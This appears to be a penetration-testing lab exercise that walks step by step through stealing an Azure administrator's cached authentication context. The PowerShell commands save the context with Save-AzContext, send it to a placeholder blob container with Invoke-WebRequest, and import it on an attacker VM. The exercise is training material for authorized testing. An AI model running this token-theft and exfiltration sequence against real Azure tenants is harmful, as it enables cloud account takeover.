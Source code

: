 


## Hands-on exercise – stealing and reusing tokens from an authenticated Azure admin system
In this exercise, we will be exporting cached tokens from the system of an authenticated Azure admin user and reusing those tokens on our pentest VM. Here are the tasks that we will complete in this exercise:

### Task 1 - Review the information for this exercise

1. On your pentest VM, browse to the following path **`C:\Users\pentestadmin\Desktop\ExerciseFiles\Modules\03`** and open the file named **`admin-token-theft-info.txt`** for later reference. There are six values that you will find in the file:
   * **Azure Admin User - Username**: This is the Azure administrator username whose token will be stolen from a workstation.
   * **Azure Admin User - Password**: This is the password of the Azure administrator user whose credential will be stolen.
   * **VM Public IP**: The public IP of the Admin workstation VM that the token will be stolen from.
   * **VM Admin Username**: The local user that you will use to authenticate to the workstation.
   * **VM Admin User Password**: The password of the local user that you will use to authenticate to the workstation.
   * **Exfiltration Storage Location**: The blob container that you will exfiltrate the stolen credential to and download it from for reuse from your pentest VM.

### Task 2 - Connect to the victim's PC and exfiltrate the token (Windows)
1. Open an RDP client on your PC and connect to the **`VM Public IP`** listed in your exercise file. When prompted to authenticate, use the **`VM Admin Username`** value as the username and the **`VM Admin User Password`** value as the password.

2. Within the RDP session to VM, open a PowerShell console and authenticate to Azure as the victim admin using the following commands:
   * Replace the placeholders for **`AZURE_ADMIN_USER_PASSWORD`** and **`AZURE_ADMIN_USER_USERNAME`** with the actual values from your exercise file.
```
$SecurePassword = ConvertTo-SecureString "AZURE_ADMIN_USER_PASSWORD" -AsPlainText -Force

$Credential = New-Object System.Management.Automation.PSCredential ("AZURE_ADMIN_USER_USERNAME>", $SecurePassword)

Connect-AzAccount -Credential $Credential
```

3. Verify authentication using the following command:
* The command lists all the resource groups in the victim's Azure environment. If you get an error, verify that you have the correct username and password.
```
Get-AzResourceGroup
```

4. At this point, we can act as an attacker with an active session on the system and save the current context for exfiltration to another system for reuse.

5. Save the current authentication context and verify that the context has been saved using the following commands:
```
Save-AzContext -Path azureprofile.json
Get-ChildItem azureprofile.json
```

6. Compress the saved authentication context and verify using the following commands:
```
7z a azureprofile.zip azureprofile.json
Get-ChildItem azureprofile.zip
```

7. Exfiltrate the compressed authentication context to the blob container listed in your exercise file, using the following command. Replace the placeholder with the value of Exfiltration Storage Location. Ensure that there are no line breaks before pasting this. You should get an HTTP 201 response:
```
Invoke-WebRequest -Method 'PUT' -Uri 'TOKEN_EXFILTRATION_STORAGE_LOCATION' -InFile 'azureprofile.zip' -Headers @{"x-ms-blob-type"="BlockBlob"} -UseBasicParsing
```

### Task 3 - Reuse the stolen token from your pentest VM
* In this task, we will used the exfiltrated context to gain access as the user in another environment

1. Switch back to your pentest VM, open a PowerShell console. 

2. Verify that you currently do not have a connection to the victim's Azure environment by using the following commands. You should get an error message. The first command **`Disconnect-AzAccount`** logs you out of your own Azure environment if you have authenticated previously.
```
Disconnect-AzAccount 

Get-AzResourceGroup
```

3. Download and verify the exfiltrated context file using the following command. Replace the placeholder with the value of Exfiltration Storage Location that you copied from the script's output:
```
Invoke-WebRequest -Uri "TOKEN_EXFILTRATION_STORAGE_LOCATION" -OutFile azureprofile.zip

Get-ChildItem azureprofile.zip
```
    
4. Extract the downloaded file using the following command and verify the extracted file:
```
7z e azureprofile.zip
Get-ChildItem -Filter azureprofile.*
```

5. Restore the authentication context to your pentest VM using the following command:
```
Import-AzContext -Path .\azureprofile.json
```

6. Verify that the context has successfully been applied to your pentest VM by running commands with the stolen admin authentication context. At this point, you have validated that an authentication context can be stolen from an administrator's system, exported, and reused from an attacker's system:
```
Get-AzResourceGroup
```

